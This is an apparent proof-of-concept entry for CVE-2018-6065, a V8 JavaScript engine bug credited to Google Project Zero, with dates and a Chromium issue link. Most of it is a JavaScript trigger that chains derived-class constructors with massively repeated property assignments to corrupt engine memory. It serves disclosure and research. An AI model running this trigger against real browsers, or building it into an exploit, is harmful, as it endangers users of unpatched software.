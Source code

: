 # CVE-2018-6065

- Report: Feb 2018
- Fix: Feb 2018
- Credit: Mark Brand of Google Project Zero

## PoC

```javascript
const f = eval(`(function f(i) {
    if (i == 0) {
        class Derived extends Object {
            constructor() {
                super();
                ${"this.a=1;".repeat(0x3fffe-8)}
            }
        }

        return Derived;
    }

    class DerivedN extends f(i-1) {
        constructor() {
            super();
            ${"this.a=1;".repeat(0x40000-8)}
        }
    }

    return DerivedN;
})`);

let a = new (f(0x7ff))();
console.log(a);
```

## Reference

- [Issue](https://crbug.com/808192)
